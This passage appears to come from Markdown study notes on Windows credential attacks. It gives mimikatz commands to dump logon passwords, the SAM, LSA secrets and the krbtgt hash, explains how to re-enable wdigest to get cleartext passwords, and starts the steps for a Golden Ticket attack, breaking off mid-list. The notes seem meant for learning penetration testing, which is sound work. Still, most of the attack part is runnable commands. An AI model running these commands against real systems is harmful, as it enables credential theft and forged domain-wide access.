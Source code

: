 	sekurlsa::logonpasswords

Tip: We can **pass the NTLM hash** around 

In the wdigest section we can see

	Password : (null)
	
Well in **Windows 7**, by default **wdigest feature** was on which stored **passwords in clear text!**

But in later versions of Windows they **patched** it (nah they **just turned it off**, mega big brain) 

We can **turn on** that feature using **mimikatz**!

We can also **dump sam**

	lsadump::sam
	
We can **dump lsa **

**Local Security Authority**, is a protected **sub-system** in Windows Authentication, which **Autheticates Logon Sessions** to the **Local Computer**

	lsadump::lsa /patch

**NTDS.dit** will also contain credentials 

	ntds.dit

<br>

## Golden-Ticket-Attack

---

### What is a Golden Ticket?

**krbtgt** Account - Kerebos Ticket Granting Ticket Account, allows us to **generate tickets**

If we have the hash for it, **WE CAN GENERATE TICKETS**!

With this, we **request access** to any **Resource** or **System on the Domain!** using the **Ticket Granting Service**

### Exploit

	mimikatz.exe
	
	privilege::debug
	
	lsadump::lsa /inject /name:krbtgt
	
Whoa that's a lot of Information! **What do we actually need?**

- **SID** of the **Domain**

		S-1-5-21-301214212-3920777931-1277971883

- **NTLM Hash**
